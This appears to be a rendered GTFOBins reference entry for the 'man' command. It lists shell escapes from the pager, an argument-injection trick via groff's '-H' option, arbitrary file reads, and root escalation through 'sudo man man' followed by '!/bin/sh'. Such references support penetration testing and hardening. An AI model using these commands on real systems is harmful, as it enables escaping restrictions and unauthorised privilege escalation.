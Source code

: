 # GTFOBin: man

This invokes the default pager, which is likely to be  `less`, other functions may apply.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
man man
!/bin/sh
```

This only works for GNU `man` and requires GNU `troff` (`groff` to be installed).

```
man '-H/bin/sh #' man
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
man file_to_read
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo man man
!/bin/sh
```